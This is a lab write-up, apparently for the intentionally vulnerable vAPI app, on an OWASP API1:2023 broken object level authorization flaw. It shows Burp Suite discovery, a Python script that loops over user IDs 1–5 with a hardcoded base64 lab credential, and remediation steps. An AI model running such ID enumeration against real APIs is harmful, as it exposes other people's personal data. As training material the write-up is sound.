


# 🛑 API 1: Broken Object Level Authorization (BOLA)

* **OWASP Class:** API1:2023
* **Risk Severity:** High 🔴
* **Target Endpoint:** `/vapi/api1/user/{user_id}`
* **Method:** `GET`

---

### 🔍 Vulnerability Profile
The endpoint fails to properly validate whether the session token belongs to the specific user profile being requested. By manually incrementing the integer parameter `{user_id}` in the URL path, an attacker can access sensitive personal profile data belonging to other accounts without authorization.

### 🔬 Manual Discovery (Burp Suite)
Altering the resource identifier directly via Burp Suite Repeater successfully retrieved a `200 OK` response containing unauthorized third-party profile data and the target flag:

<kbd>
  
</kbd>

### 🐍 Programmatic Validation (Python Automation)
To provide a portable, repeatable verification check that doesn't rely on local proxy software, the following lightweight scanning script was developed to test IDs sequential from 1 through 5:

```python
import requests

auth_token = "YmlzY3VpdDE6YmlzY3VpdHQx" # this is base64 encoding of my 'username:password' userd
headers = {
        "Content-Type": "application/json",
        "Authorization-Token": auth_token
        }

print("[+] Starting Automated Testing of IDOR...")

for user_id in range(1, 6):
        target_url = f"http://172.31.42.113:8000/vapi/api1/user/{user_id}"
        response = requests.get(target_url, headers=headers)

        print(f"="*37)
        print(f"[*] Testing User ID: {user_id}")
        print(f"[*] Status Code: {response.status_code}")
        print(f"[*] Data: {response.text}")
```

### 🖥️ Output Results
Running the verification tool generates clean, structured feedback showing the baseline vulnerability depth:

<kbd>
  
</kbd>

### 🛠️ Remediation
1. **Enforce Object Ownership:** Implement a backend checking mechanism to verify that `Session(User_ID) == Request(Target_User_ID)`.
2. **Abstract Identifiers:** Replace incremental integers with secure, unpredictable **UUIDv4** keys.
